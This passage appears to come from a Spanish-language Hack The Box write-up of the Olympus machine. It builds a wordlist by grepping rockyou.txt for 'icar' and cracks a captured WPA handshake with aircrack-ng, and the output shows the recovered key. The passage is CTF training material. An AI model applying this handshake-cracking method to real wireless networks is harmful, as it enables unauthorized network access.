 ![""](/assets/images/htb-olympus/olympus_icaro.png)

Vemos que se trata de ***Icaro*** o ***Icarus***, así que nos vamos a crear un direccionario a partir de `rockyou.txt` de aquellas palabras que contengan *icar*:

```bash
❯ cat /usr/share/wordlists/rockyou.txt | grep "icar" > diccionario.txt
```

Ahora si procedemos a obtener la contraseña:

```bash
❯ aircrack-ng -w diccionario.txt captured.cap

                               Aircrack-ng 1.6 

      [00:00:14] 4555/4591 keys tested (332.14 k/s) 

      Time left: 0 seconds                                      99.22%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : B1 D1 0A 51 A8 BF F2 F9 35 BC 56 5E 30 CA D5 4D 
                       05 1F 77 B3 BB 39 E2 4F 45 03 66 F6 12 2D 1B 23 

      Transient Key  : A8 1E 31 D3 6D A0 7B BA 82 73 04 31 99 3C BF 89 
                       17 6C 29 B1 50 72 C2 AC 2C 18 0B 6B 5F F9 D6 E7 
                       93 F9 AC 2A AD D3 F2 35 60 75 CF B3 5C 8F 6D AB 
                       F6 00 BA 73 8E 7C 72 AA 38 01 10 41 80 13 F8 A4 

```